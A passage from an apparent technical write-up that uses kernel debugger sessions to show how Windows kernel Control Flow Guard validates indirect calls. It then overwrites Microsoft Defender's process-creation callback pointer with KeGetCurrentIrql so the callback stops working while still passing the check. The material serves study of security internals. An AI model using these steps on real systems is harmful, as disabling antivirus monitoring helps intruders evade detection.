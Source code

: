 <pre>
lkd> u FLTMGR!FltDoCompletionProcessingWhenSafe+0x77
FLTMGR!FltDoCompletionProcessingWhenSafe+0x77:
fffff807`1ee01567 488bcd          mov     rcx,rbp
fffff807`1ee0156a bf01000000      mov     edi,1
<mark>fffff807`1ee0156f ff1583450300    call    qword ptr [FLTMGR!_guard_dispatch_icall_fptr (fffff807`1ee35af8)]</mark>
fffff807`1ee01575 8bd8            mov     ebx,eax
fffff807`1ee01577 41891e          mov     dword ptr [r14],ebx
fffff807`1ee0157a 408ac7          mov     al,dil
fffff807`1ee0157d 488b5c2450      mov     rbx,qword ptr [rsp+50h]
fffff807`1ee01582 488b6c2458      mov     rbp,qword ptr [rsp+58h]
lkd> dqs FLTMGR!_guard_dispatch_icall_fptr L1
fffff807`1ee35af8  fffff807`23820170 <mark>nt!guard_dispatch_icall</mark>
lkd> u fffff807`23820170
nt!guard_dispatch_icall:
<mark>fffff807`23820170 4c8b1d89179e00  mov     r11,qword ptr [nt!guard_icall_bitmap (fffff807`24201900)]</mark>
fffff807`23820177 4885c0          test    rax,rax
</pre>

The real function which we want to call will be loaded into rax and KCFG (nt!guard_dispatch_icall) will be called, which will verify that the function inside rax is a valid function through a bitmap using the following process (the process is inside nt!guard_dispatch_icall).

The calculation are based on the function `nt!KeGetCurrentIrql`, because this is the function that we are going to end up calling.

<pre>
lkd> ? nt!KeGetCurrentIrql >> 9 (Will be used as Index)
Evaluate expression: 36028779900694815 = 007ffffc`03abf11f

lkd> ? (nt!KeGetCurrentIrql >> 3) mod 40 (BitToCheck)
Evaluate expression: 54 = 00000000`00000036

lkd> dqs nt!guard_icall_bitmap L1
fffff807`58a01900  fbffa8d7`9452c248

lkd> dqs fbffa8d7`9452c248 + 007ffffc`03abf11f (Index) * 0x08 L1 (Entry)
ffffa8b7`b1b24b40  00410004`00004400

lkd> .formats 00410004`00004400
Evaluate expression:
Binary:  00000000 0<mark>1</mark>000001 00000000 00000100 00000000 00000000 01000100 00000000
</pre>

The `BitToCheck` which in our case is the bit 54 needs to be `1`, if it's `1` it means the call is valid which is the case for `KeGetCurrentIrql`.

So the plan is to replace the function pointing to the AV function to be called (`fffff807252e9b70`) to KeGetCurrentIrql (`fffff80723623fb0`) which will render the entry useless.

<pre>
lkd> u KeGetCurrentIrql L2
<mark>nt!KeGetCurrentIrql:</mark>
<mark>fffff807`23623fb0</mark> 440f20c0        mov     rax,cr8
fffff807`23623fb4 c3              ret
lkd> dq ffff800e`5c7f7250 L4
ffff800e`5c7f7250  00000000`00000020 <mark><del>fffff807`252e9b70</del></mark>
ffff800e`5c7f7260  00000000`00000006 00000000`00000000
lkd> eq ffff800e`5c7f7258 fffff807`23623fb0
lkd> dq ffff800e`5c7f7250 L4
ffff800e`5c7f7250  00000000`00000020 <mark>fffff807`23623fb0</mark>
ffff800e`5c7f7260  00000000`00000006 00000000`00000000
lkd> u fffff807`252e9b70 L2
<mark>WdFilter!MpCreateProcessNotifyRoutineEx:</mark>
<mark>fffff805`55e99b70</mark> 48895c2410      mov     qword ptr [rsp+10h],rbx
fffff805`55e99b75 48894c2408      mov     qword ptr [rsp+8],rcx